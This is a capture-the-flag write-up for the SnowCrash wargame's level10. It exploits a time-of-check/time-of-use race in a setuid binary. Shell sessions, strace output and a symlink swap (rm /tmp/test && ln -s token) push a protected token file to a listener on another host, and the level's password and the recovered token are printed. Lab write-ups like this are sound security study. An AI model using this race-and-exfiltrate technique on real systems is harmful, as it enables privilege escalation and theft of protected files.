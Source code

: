 > [!TIP]
> user: `level10` <br>
> pass: `s5cAJpM8ev6XHw998pRWG728z`

in the home directory we have a binary `level10` owned by `flag10` and with suid, along with a file `token` owned by `flag10` and readable only by him.
launching the level10 binary, it takes two args: a file and a server
we setup a netcat and start the program, it dont work so we try with a temp file, it works

on the snowcrash machine:
```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ ./level10 token 10.13.2.6
You don't have access to token
level10@SnowCrash:~$ echo 'test' > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ 
```

on our machine: 
```bash
➜ nc -llvp 6969
Listening on 0.0.0.0 6969
Connection received on 10.13.249.44 44114
.*( )*.
test
```

okay so it should check for rights, then connect, open file and send it. lets check that with strace:

```bash
level10@SnowCrash:~$ strace ./level10 /tmp/test 10.13.2.6
execve("./level10", ["./level10", "/tmp/test", "10.13.2.6"], [/* 18 vars */]) = 0
[...]
access("/tmp/test", R_OK)               = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 1), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fda000
write(1, "Connecting to 10.13.2.6:6969 .. ", 32Connecting to 10.13.2.6:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("10.13.2.6")}, 16) = 0
write(3, ".*( )*.\n", 8)                = 8
write(1, "Connected!\n", 11Connected!)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/test", O_RDONLY)             = 4
read(4, "test\n", 4096)                 = 5
write(3, "test\n", 5)                   = 5
write(1, "wrote file!\n", 12wrote file!)           = 12
exit_group(12)                          = ?
```

its eaxctly that! 

1. call `access(path, R_OK)`
1. create a `socket()` and `connect(host, 6969)`
1. call `open(path, O_RDONLY)`, `read()`, and `write()` to socket!

here's the plan:

1. create `/tmp/test` exactly like before 
1. create a rogue server that will block the client socket when connecting
1. launch the server and launch the binary
1. connection will hang, quickly `rm /tmp/test && ln -s $PWD/token /tmp/test`
1. client should send content of the token file

the server is attached, but heres how we exploited it:

1. launch server
2. launch the binary multiple times until the tcp buffer is full
3. `rm /tmp/test && ln -s $PWD/token /tmp/test`
4. read from the server
5. profit

on the vm:
```bash
level10@SnowCrash:~$ touch /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ ./level10 /tmp/test 10.13.2.6
Connecting to 10.13.2.6:6969 .. <<<<===== it blocked here!
Connected!
Sending file .. wrote file!
level10@SnowCrash:~$
```

on a second terminal while the process hanged:
```bash
rm /tmp/test && ln -s $PWD/token /tmp/test
```

and on the host:
```bash
➜ ./a.out
Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client:
Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client: Received: .*( )*.

Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client:
Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client: Received: .*( )*.

Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client:
Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client: Received: .*( )*.

Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client:
Waiting for a client to connect...
Client connected!
Press enter to receive a message or 'q' to wait for another client: Received: .*( )*.
woupa2yuojeeaaed06riuj63c
```